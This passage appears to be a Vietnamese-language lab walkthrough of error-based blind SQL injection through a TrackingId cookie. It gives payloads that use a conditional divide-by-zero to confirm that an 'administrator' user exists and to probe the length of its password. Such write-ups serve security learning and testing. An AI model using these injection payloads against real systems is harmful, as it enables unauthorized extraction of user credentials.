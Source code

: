 => điều kiện sai => server OK

- Kiểm tra user `administrator` có tồn tại hay không?

`TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

![image-20250601102745753](./image/image-20250601102745753.png)

=> tồn tại user `administrator`

- Kiểm tra số kí tự của password (send req to intruder tab):

`TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

![image-20250601103310852](./image/image-20250601103310852.png)
